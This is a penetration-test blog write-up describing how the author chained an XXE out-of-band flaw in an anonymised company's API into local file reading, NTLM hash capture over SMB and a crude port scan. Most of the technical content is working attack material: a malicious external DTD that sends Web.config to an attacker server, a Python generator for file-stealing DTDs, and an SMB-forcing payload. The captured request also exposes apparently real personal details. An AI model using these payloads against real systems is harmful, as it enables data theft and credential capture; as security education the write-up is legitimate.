 ```yaml
---
title: Another Sample Page
published: false
---
```

# [](#header-1) From XXE to NTLM thief!

Long time no read! I am writing this post because of a recent chain of cool vulnerabilities I got the opportuninty to exploit during a pentest.

For security reasons, I am not going to reveal the name of the company, although the bugs have been (or `should` be) mitigated.
The vulnerability got to compromise an API through an [XXE OOB](another-page) vulnerability, from where I could read local files and also exfiltrate valuable data, such as domain name, username and NTLM hash. Finally, I `sorta` got access to a port scan just to look for internal ports.

## [](#header-2)Basic PoC

Let's take a look on the original request from the page, intercepted with burp:

```json
POST blah/blah HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.26.3
Accept: */*
Postman-Token: XX
Host: XXX.YYY.ZZ
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 3292

{
  "device": {
    "brand": "Apple",
    "model": "iPhone",
    "os": "12.1.2",
    "deviceType": 1,
    "deviceOs": 1,
    "userInformation": {
      "phoneNumber": "650371725",
      "owner": {
        "firstName": "peep ",
        "surName": null,
        "lastName": "test "
      },
      "drivers": [
        {
          "firstName": "peep ",
          "surName": null,
          "lastName": "test "
        }
      ],
    },
    "deviceAttributes": [
      {
        "key": "LANGUAGE_CODE",
        "value": "es"
      }
    ],
    "kyrosDeviceId": null
  },
  "incidentType": 2,
  "xmlDisplay": null,
  "xmlCase": "&lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;xmlCase version=&quot;1.0&quot;&gt;&lt;phone&gt;&lt;imei /&gt;&lt;/phone&gt;&lt;ResponseQuestions&gt;&lt;Questions&gt;&lt;Question&gt;&lt;Answers&gt;&lt;Answer&gt;&lt;AnswerId&gt;1&lt;/AnswerId&gt;&lt;TextAnswer&gt;&lt;Text&gt;&lt;LanguageCode&gt;1&lt;/LanguageCode&gt;&lt;Message&gt;Avería&lt;/Message&gt;&lt;/Text&gt;&lt;/TextAnswer&gt;&lt;Value&gt;100&lt;/Value&gt;&lt;/Answer&gt;&lt;/Answers&gt;&lt;Order&gt;1&lt;/Order&gt;&lt;QuestionId&gt;1&lt;/QuestionId&gt;&lt;TextQuestion&gt;&lt;Text&gt;&lt;LanguageCode&gt;1&lt;/LanguageCode&gt;&lt;Message&gt;¿Qué ha sucedido?&lt;/Message&gt;&lt;/Text&gt;&lt;/TextQuestion&gt;&lt;/Question&gt;&lt;/Questions&gt;&lt;ReferenceId&gt;ITPOLICY_0001&lt;/ReferenceId&gt;&lt;/ResponseQuestions&gt;&lt;userdescription&gt;&lt;userdata&gt;&lt;language code=&quot;es&quot;&gt;&lt;field name=&quot;NIF&quot; attributeid=&quot;3&quot;&gt;34007678Q&lt;/field&gt;&lt;field name=&quot;Tipo Vehiculo&quot; attributeid=&quot;4&quot;&gt;Moto&lt;/field&gt;&lt;field name=&quot;Marca&quot; attributeid=&quot;5&quot;&gt;Bmw &lt;/field&gt;&lt;field name=&quot;Modelo&quot; attributeid=&quot;6&quot;&gt;&lt;/field&gt;&lt;field name=&quot;Matrícula&quot; attributeid=&quot;7&quot;&gt;0362FPG&lt;/field&gt;&lt;field name=&quot;Combustible&quot; attributeid=&quot;9&quot;&gt;&lt;/field&gt;&lt;/language&gt;&lt;/userdata&gt;&lt;/userdescription&gt;&lt;/xmlCase&gt;",
  "userProfile": null
```

First thing I thought when I saw the request was the XML parameters of the data section (in fact, it was the only thing I saw interesting). If we HTML-decode it we have the following:

```
<?xml version="1.0" encoding="UTF-8"?><xmlCase version="1.0"><phone><imei /></phone><ResponseQuestions><Questions><Question><Answers><Answer><AnswerId>1</AnswerId><TextAnswer><Text><LanguageCode>1</LanguageCode><Message>Avería</Message></Text></TextAnswer><Value>100</Value></Answer></Answers><Order>1</Order><QuestionId>1</QuestionId><TextQuestion><Text><LanguageCode>1</LanguageCode><Message>¿Qué ha sucedido?</Message></Text></TextQuestion></Question></Questions><ReferenceId>ITPOLICY_0001</ReferenceId></ResponseQuestions><userdescription><userdata><language code="es"><field name="NIF" attributeid="3">34007678Q</field><field name="Tipo Vehiculo" attributeid="4">Moto</field><field name="Marca" attributeid="5">Bmw </field><field name="Modelo" attributeid="6"></field><field name="Matrícula" attributeid="7">0362FPG</field><field name="Combustible" attributeid="9"></field></language></userdata></userdescription></xmlCase>
```

I tried a basic Proof of concept with Burp Collaborator:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://abc.burpcollaborator.net">]><xmlCase version="1.0"><phone><imei /></phone><ResponseQuestions><Questions><Question><Answers><Answer><AnswerId>1</AnswerId><TextAnswer><Text><LanguageCode>1</LanguageCode><Message>Avería</Message></Text></TextAnswer><Value>100</Value></Answer></Answers><Order>1</Order><QuestionId>1</QuestionId><TextQuestion><Text><LanguageCode>1</LanguageCode><Message>¿Qué ha sucedido?</Message></Text></TextQuestion></Question></Questions><ReferenceId>ITPOLICY_0001</ReferenceId></ResponseQuestions><userdescription><userdata><language code="es"><field name="NIF" attributeid="3">34007678Q</field><field name="Tipo Vehiculo" attributeid="4">Moto</field><field name="Marca" attributeid="5">Bmw </field><field name="Modelo" attributeid="6"></field><field name="Matrícula" attributeid="7">0362FPG</field><field name="Combustible" attributeid="9"></field></language></userdata></userdescription></xmlCase>
```

Looks like I got profit :D:

![](https://github.com/kikoas1995/kikoas1995.github.io/tree/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/burp_collab.png)

However, the response from the server shows nothing to me, so it is time to get `out of band`. 

## [](#header-2)Let's retrieve files!

Now I need to adapt my payload to make it connect to a server where I have control. From there, I need to publish a malicious DTD in order to test LFI. The payload will be:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xx.xx.xx.xx:80/evil.dtd"> %xxe;]
```

And the external DTD that will be invoked will be something like this:

```xml
<!ENTITY % file SYSTEM "file:///c:/Inetpub/wwwroot/Web.config">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % file "<!ENTITY fileContents '%start;%file;%end;'>">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xx.xx.xx.xx:80/%file;'>">
%eval;
%exfiltrate;
```

Notice that I tried to retrieve a windows file. This is because in the responses of the webapp, I saw it was running a IIS.
Okay, so now we just need to make the request while hosting a rogue web server in port 80 and...

```
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /evil.dtd HTTP/1.1" 200 -
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] code 404, message File not found
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /%0D%0A%3Cconfiguration%3E%0D%0A%20%20%20%20%3Csystem.webServer%3E%0D%0A%20%20%20%20%20%20%20%20%3Csecurity%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cauthorization%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cadd%20accessType=%22Allow%22%20users=%22*%22%20/%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C/authorization%3E%0D%0A%20%20%20%20%20%20%20%20%3C/security%3E%0D%0A%20%20%20%20%3C/system.webServer%3E%0D%0A%3C/configuration%3E HTTP/1.1" 404
```
Yay we got LFI! Now I needed to look for more interesting files. I thought about using intruder to fuzz for windows/IIS interesting files. However, I realized that the file name was in the DTD, not in the request... I though about some dirty solution then lol.

```python
#!/usr/bin/python
import sys

i=0
with open('file.txt') as fp:
    
    line = fp.readline().strip().lower()
    while line:
        f = open("evil" + str(i) + ".dtd", "a")
        f.write("<!ENTITY % file SYSTEM \"file:///" + line + "\">\n")
        f.write("<!ENTITY % start \"<![CDATA[\">\n")
        f.write("<!ENTITY % end \"]]>\">\n")
        f.write("<!ENTITY % file \"<!ENTITY fileContents '%start;%file;%end;'>\">\n")
        f.write("<!ENTITY % eval \"<!ENTITY &#x25; exfiltrate SYSTEM 'http:/xx.xx.xx.xx/%file;'>\">\n")
        f.write("%eval;\n")
        f.write("%exfiltrate;\n")
        f.close()
        line = fp.readline().strip().lower()
        i+=1
```

This script basically creates as many DTD files as lines in the wordlist I used to fuzz xD. Now it is only neccesary to run a Burp Intruder with evil0.dtd to evil[numer of words in the wordlist, in my case 389].dtd.

After some bruteforce time (the API takes its time to response...), I only got a couple more files but nothing interesting... :(
How could I escalate the vulnerability now? After some time reading, I found this gem: https://techblog.mediaservice.net/2018/02/from-xml-external-entity-to-ntlm-domain-hashes/

### [](#header-3)XXE to steal NTLM hash

My external DTD will look like this:

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file://xx.xx.xx.xx/blah;'>">
%eval;
%exfiltrate;
```
What does it do? It basically forces the victim to connect to a SMB share exposed. This requires however a very bad network configuration that allows outbound traffic to unauthenticated rogue SMB exposed shares (spoiler: this is the case lol):
Now I just need to host a SMB capture server using metasploit:

![](https://github.com/kikoas1995/kikoas1995.github.io/tree/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/msfsmb.png)

Bingo!

![](https://github.com/kikoas1995/kikoas1995.github.io/tree/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/ntlm.png)

This is a win :D. In order to use this hash, we could use various methods:

1.  Crack it and find an exposed RDP service of the server. 
2.  Have access to the internal network and use SMBRelay+Responder to get a shell.
3.  Find an exposed Exchange server and PtH.
 
None of them were available to me unfortunately, but I learnt a lot :D.

## [](#header-2)Bonus track: Port scanner!

As an extra, I used the DTD to make a port `sweep` (poorly useful, as this service was slow af) with a XXE OoB time-based.

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://127.0.0.1:XX'>">
%eval;
%exfiltrate;
```

Where XX is the number of the port to test. If the port is open, it will typically take different time in the response than if it is closed. Although this worked in my case, it was not very useful because of two things:
1.  Requests took ~90s of response time, which is not good for bruteforcing open ports.
2.  I did not have access to any of these services.

I hope you liked it! :)

